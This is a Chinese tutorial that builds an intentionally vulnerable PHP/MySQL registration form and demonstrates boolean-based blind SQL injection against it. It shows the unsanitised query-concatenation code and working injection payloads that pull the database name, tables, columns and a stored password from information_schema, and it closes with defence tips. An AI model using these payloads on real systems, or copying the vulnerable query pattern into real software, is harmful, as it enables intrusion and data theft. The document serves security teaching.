


# SQL注入漏洞

之前对于SQL注入漏洞大部分是直接使用DVWA环境本身搭建好的漏洞环境来学习，今天想要从零搭建一个SQL注入漏洞的环境，直观的了解SQL注入漏洞产生的原因、特征以及防御方法

## 0x00 漏洞环境概述

**前提：搭建好LNMP或LAMP环境，我使用的是Nginx**

想先搭建一个比较简单的环境，比如在网站实现用户注册的功能，需要提供用户自定义的用户名和密码，需要判断该用户名是否存在，如果已经存在则提示用户尝试别的用户名，而且要考虑到账户的安全性，要求密码不能为空，长度最少是6位，用户名和密码符合规则后才可以存入数据库，并且返回创建用户成功的消息

搭建漏洞环境用到的相关知识

​	MYSQL，HTML，JavaScript，PHP，BurpSuite使用等

## 0x01 漏洞环境搭建-创建数据库

既然是SQL注入漏洞，一定是与数据库有交互的地方才会产生该漏洞，所以第一步首先在MySQL中创建一张存储网站所有用户账户名和密码的friends表


## 0x02 漏断环境搭建-注册功能

创建好了数据库，接下来才是重点，需要使用HTML编写具有注册功能的页面，使用JavaScript在浏览器端对用户输入的账户和密码进行检查，对于不合规的注册信息直接返回错误，不将请求发送给服务器，对于合规的注册信息发送给服务器审核，确保账户是唯一后存入数据库

看起来实现注册功能似乎很复杂，让我们分解问题，一步步来解决

首先用HTML完成它能够干的事，创建一个让用户填写账户和密码的表单并能提交给服务器中处理该请求的php脚本

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
</head>
<head>
</head>
<body>
<h1>注册测试</h1>
<form name="myForm" action="register.php" onsubmit="return check();" method="post">
账户<input type="text" name="username"><br>
密码<input type="password" name="password"><br>
        <br>
<input type="submit" value="注册">
</form>

</body>
</html>
```


接着就轮到JavaScript出马了，在浏览器端对账户密码做初步的审核，实现两个功能，一是对于输入空账户或空密码的报错，二是对密码长度小于6位报错

```javascript
<script>
function check(){
var name=document.forms["myForm"]["username"].value;
var pwd=document.forms["myForm"]["password"].value;
if (name==null || name==""){
  alert("用户名或密码为空");
  return false;
  }
if (pwd==null || pwd==""){
  alert("用户名或密码为空");
  return false;
  }
if(pwd.length < 6){
  alert("密码长度不能小于6位");
  return false;
  }
}
</script>
```


ok，JavaScript能干的事也完成的差不多了，最后轮到PHP了，在用户点击注册提交数据之后，浏览器会把表单信息传递给服务器端php脚本来处理，这部分脚本需要做什么呢？需要拿着用户输入的账户去数据库friends表中比对是否早已经存在，如果存在则返回给客户端账户已经被注册的消息，让用户换一个账户，如果不存在则将用户的账户密码信息存入表中并返回注册成功的消息，但做这些的前提是先用PHP连接MySQL，能够对数据库执行sql语句，所以总结下来php脚本共需要完成这么三件事即可

mysql_connect.php

```php
<?php
$servername="localhost";
$username="root";
$password="123456";
$dbname="test";

$conn=new mysqli($servername,$username,$password,$dbname);
if($conn->connect_error){
  die("连接失败：".$conn->connect_error);
}
echo "连接成功";
?>

```

register.php

```php
<?php
include './mysql_connect.php';

$name=$_POST["username"];
$pwd=$_POST["password"];
echo "服务器端已经获取注册信息";

$sql="SELECT name FROM friends where name='$name';";
$result=$conn->query($sql);
if($result->num_rows > 0){
  echo "该用户已经存在";
}else{
  echo "该用户不存在";
  $sql="INSERT INTO friends (name,passwd) VALUES ('$name','$pwd');";
  if($conn->query($sql) == TRUE){
    echo "插入成功";
  }else{
    echo "插入失败";
  }
}
$conn->close();
?>
```

## 0x03 SQL注入漏洞原理

环境搭建测试没问题后，先说一下产生SQL注入漏洞的原理，简单讲就是在服务器端的脚本执行sql语句时，将用户恶意插入或者说是拼接的sql语句一起执行，那么这样做就会造成数据库信息泄露，信息泄露就可能会发生一连串的连锁反应T^T，漏洞原理其实就这么一两句话，很难直观的理解，我们直接实战演示，感受SQL注入漏洞

## 0x04 SQL注入实战

借助BurpSuite工具完成，配置好代理后，先随便注册一个账户抓包看看



请求包中信息：表单的提交方式时POST，用户所填的表项username和password均为明文传输

返回包中信息：显示用户是否存在和数据是否插入成功的消息

注意：sql查询语句是为了学习方便打印，实际情况下并不会有数据库查询语句源码直接返回给浏览器

目前这种情况是SQL注入中常见的盲注，并不会有详细的报错信息，可以说是就像个盲人一样瞎注，但这就意味着安全吗？

**判断是否存在注入？**

尝试给username后所填名称添加单引号，如果页面报错则说明存在注入点

```http
username=lufei
该用户已经存在

username=lufei'
该用户不存在，插入失败
```

因为所添加的单引号提交给服务器后，造成了原本sql语句提前闭合，从上帝视觉来看，它就变成了这样，原本正常的应该是name=’lufei‘，现在多了一个单引号所以造成sql语句语法错误

```mysql
SELECT name FROM friends WHERE name='lufei'';
```

**判断注入类型**

确认存在注入后，就要判断它是属于类型？如果是新手可能会觉得what？注入还分类型？是的，通常分为数字型、字符型和搜索型三种，第三种比较特殊，暂时不涉及，像我们的环境便是第二种单引号字符型，为什么叫单引号字符型？因为还有双引号字符型等等T^T，当然这是后话，但也不过是另一种类型的sql注入罢了

如何判断它就是单引号字符型？

我们先来判断它是否是数字型，所谓数字型就是服务器端sql查询语句依靠的是整型，区别于使用username=’$name‘，它使用的是类似下面这种，直接使用数字来做sql查询的过滤条件

```mysql
SELECT name FROM friends WHERE id=5;
```

当sql属于上面这种时我们就可以使用id=5 and 1=1，id=5 and 1=2来看页面是否返回正常，这是个和数学与和或相同的表达式，显然后者为假也就是1 and 0，前者1 and 1为真，这一真一假返回的页面内容应该也是有所差异

现在我们假设它是这种数字型，我们使用下面这两组来验证

```http
username=lufei and 1=1
该用户不存在，插入成功

username=lufei and 1=2
该用户不存在，插入成功
```

我们直接到服务器查看数据库，发现这两组包括表达式都被当作是username插入表中，显然这不属于数字型，因此排除这种情况



有了数字型的概念，字符型应该就很容易理解，就是我们所搭建的这种，使用了单引号，也有可能是双引号括起来的字符串来作为WHERE的过滤条件，判断方法相同只是要加上单引号因为这里1=1是作为字符在比较，所以应该是’1‘=’1‘，又因为考虑到在阶段一是否存在sql注入时，发现可能是单引号导致了sql语句提前闭合，所以构造为’1‘=’1，右边的单引号与原本sql语句中的单引号形成闭合

```http
username=lufei'and '1' ='1
该用户已经存在

username=lufei'and '1' ='2
该用户不存在，插入失败
```

这一真一假返回的页面内容不一致，所以这是单引号字符型注入

按照截至目前服务器对构造sql语句执行的结果来说，我们这便是属于基于布尔的盲注，盲注可以理解，基于布尔说的便是0和1，说的便是TRUE和FALSE，说的便是该用户已经存在和该用户不存在

除了基于布尔的盲注还有基于时间的盲注、基于报错的注入、联合查询注入、堆查询注入以及宽字节注入等

其他的暂且先不说，先关注眼前的问题基于布尔的盲注具体该怎样操作？

**基于布尔的盲注**

1. 猜测数据库名称长度以及库名
2. 猜测表的数量、表名长度以及表名
3. 猜测字段数量、字段名长度以及字段名
4. 拿到数据库信息

因为是盲注，因为没有报错信息，所以需要猜测

介绍几个会用到的函数

| 函数名称   | 函数功能                |
| ---------- | ----------------------- |
| database() | 返回当前数据库的名称    |
| length()   | 返回括号内字符串的长度  |
| ascii()    | 返回括号内字符的ASCII值 |
| count()    | 返回匹配条件的行数      |
| substr()   | 多种用法比较灵活        |
| left()     |                         |
| right()    |                         |

ok，对这几个函数有了解后，开始第一步猜测数据库名称的长度，当然上帝视角知道库名为test，长度为4

**SQL注入技巧：使用--+，#或者是%23注释掉sql后续语句比如单引号**

```http
lufei' and length(database())=1 --+
该用户不存在，插入失败
```

当我们猜测长度从1变化到4，果然发现页面返回信息发生变化，也就是说我们得到了目前数据库名称的长度为4

```http
lufei' and length(database())=4 --+
该用户已经存在
```

接下来开始猜测这长度为4的名称到底是哪四个字母，使用ascii()函数返回值与其他ASCII值不断的作比较得到某一位的字符，在未知的情况下，可以考虑使用二分法来加快猜测速度

```http
lufei' and ascii(substr(database(),1,1)) > 97 --+
该用户已经存在

lufei' and ascii(substr(database(),1,1)) > 110 --+
该用户不存在，插入失败

//偷个懒哈，第一位是t
lufei' and ascii(substr(database(),1,1)) = 116 --+
该用户已经存在
```

对长度为4的每个位置进行这样的一轮猜测后我们便可以得到数据库名是test

有了库名就可以开始第二步，猜测表名长度和表名，上帝视角表名长度7，表名friends，但比起猜测库名来说，这里多一个步骤就是猜测表的数量，因为实际情况下一个数据库里会存放很多张表，比如目前所使用的test库中就有2张表

```http
lufei' and (select count(table_name) from information_schema.tables where table_schema='test')=1 --+
该用户不存在，插入失败

lufei' and (select count(table_name) from information_schema.tables where table_schema='test')=2 --+
该用户已经存在
```

所以我们之后对与表名长度的猜测是对库中存在的两张表分别进行，当然本次仅是为了说明问题，我们直接对第一条记录进行猜测，实际情况下应该逐条进行表名长度和表名的猜测

```http
lufei' and length(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1))=1 --+
该用户不存在，插入失败

lufei' and length(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1))=7 --+
该用户已经存在
```

表名长度为7，接着开始猜测这7个字母，与猜测库名方法相同不赘述了

```http
lufei' and ascii(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1)) =102 --+
该用户已经存在
```

七轮下来获得表名friends，得到一张陌生的表名后下一步就需要猜测字段数量，字段长度以及字段名，通过上帝视角我们知道3个字段，id，name以及passwd，长度分别是2，4，6

先来猜测字段数量，其实只是把之前猜测表名用的sql语句拿来替换几处就好

```http
lufei' and (select count(column_name) from information_schema.columns where table_name='friends')=3 --+
该用户已经存在
```

知道了有3个字段，先来猜测第一个字段的长度

```http
lufei' and length(substr((select column_name from information_schema.columns where table_name='friends' limit 0,1),1))=2--+
该用户已经存在
```

是一个2位字母的字段，再次拿出ascii()函数

```http
lufei' and ascii(substr((select column_name from information_schema.columns where table_name='friends' limit 0,1),1,1)) =105--+
该用户已经存在
```

两轮之后得到第一个字段名id，同理依次得到name，passwd字段名

万事俱备，最后一步就是爆数据了，三个字段里我们感兴趣的肯定是name和passwd两个字段的内容，没准管理员的密码就在里面呢？当然也有可能在其他数据库里面，这就需要一个个手工或者配合工具去爆了

为了缩短篇幅，下面只演示获取表里第一位用户的密码的sql语句示例，当然我们知道密码是123456

```http
lufei' and (ascii(substr((select passwd from friends limit 0,1),1,1))) =49--+
该用户已经存在
```

## 0x05 后记-SQL注入防御

完结撒花，总的来说环境搭建的比较简单，对用户输入也没有做任何限制和过滤，仅仅是复现了一个低级别的SQL盲注过程，旨在从一整个前端页面搭建以及注册功能的实现，再到后端与服务器数据库交互等一个完整的流程里感受SQL注入漏洞原理和危害

最后讲讲SQL注入的防御

从这一整套流程下来其实可以或多或少了解到容易引发SQL注入漏洞的地方，首先你不能将产生SQL注入的原因归责于MySQL，它只是奉命行事，既然不是MYSQL，那么向前走一步那就是PHP了，确实，PHP应该承担起更多防御的责任，比如在程序中严格判断数据类型即可解决数字型注入，对一些特殊字符做转义处理、使用预编译语句、框架技术等解决字符型注入，明确一点，SQL注入漏洞是可以完全杜绝的end


